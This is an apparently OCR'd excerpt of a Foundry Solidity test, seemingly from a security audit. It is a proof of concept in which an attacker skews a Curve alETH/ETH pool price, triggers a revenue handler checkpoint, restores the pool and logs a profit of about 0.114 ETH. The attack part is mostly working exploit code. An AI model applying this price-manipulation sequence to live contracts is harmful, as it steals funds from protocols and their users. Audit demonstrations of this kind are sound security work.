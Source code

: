 ```javascript

        // Manipulate the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange{ value: inputAmount }(
            0,
            1,
            inputAmount,
            0,
            attacker
        );

        // --------------------------------------------------------------------------
        // | Checkpoint is executed                                                 |
        // --------------------------------------------------------------------------

        uint256 balBefore = IERC20(aleth).balanceOf(address(revenueHandler));
        assertEq(balBefore, 0);
        revenueHandler.checkpoint();
        uint256 balAfter = IERC20(aleth).balanceOf(address(revenueHandler));
        assertApproxEq(revAmt, balAfter, revAmt / 30);
        

        // --------------------------------------------------------------------------
        // | Attack starts: Restore the pool to his original state                  |
        // --------------------------------------------------------------------------

        inputAmount = IERC20(aleth).balanceOf(attacker);

        // Approve the pool to spend the aleth
        hevm.prank(attacker);
        IERC20(aleth).approve(address(alethcrv), inputAmount);

        // Restore the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange(
            1,
            0,
            inputAmount,
            0,
            attacker
        );

        // Log attacker profit in ETH
        uint256 attackerETHAfetr = attacker.balance;
        uint256 profit = attackerETHBefore - attackerETHAfetr;
        console2.log("attacker profit in ETH", profit);
        // - attacker profit in ETH 1141830491000656247 wei of ETH ~= 0.114 ETH

    }

```